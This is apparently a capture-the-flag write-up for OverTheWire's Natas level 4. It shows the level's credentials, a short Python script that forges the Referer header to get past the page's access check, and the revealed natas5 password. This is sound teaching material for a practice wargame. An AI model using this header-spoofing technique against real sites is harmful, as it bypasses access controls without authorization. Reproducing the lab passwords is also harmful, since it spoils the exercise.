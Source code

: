 # Level 4

URL : http://natas4.natas.labs.overthewire.org/

#### Creds for level4

**natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**


## Solution

once visiting the page we see:  

>  Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/".

This means we need to change the referer header to "http://natas5.natas.labs.overthewire.org/", and we will have access.

let's try it

```python
import requests
# set Referer
headers = {"Referer": "http://natas5.natas.labs.overthewire.org/"}
# request page
res = requests.get("http://natas4.natas.labs.overthewire.org/", headers=headers, auth=('natas4', 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ'))
# print the response body
print(res.text)
```


## Result
**Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**.










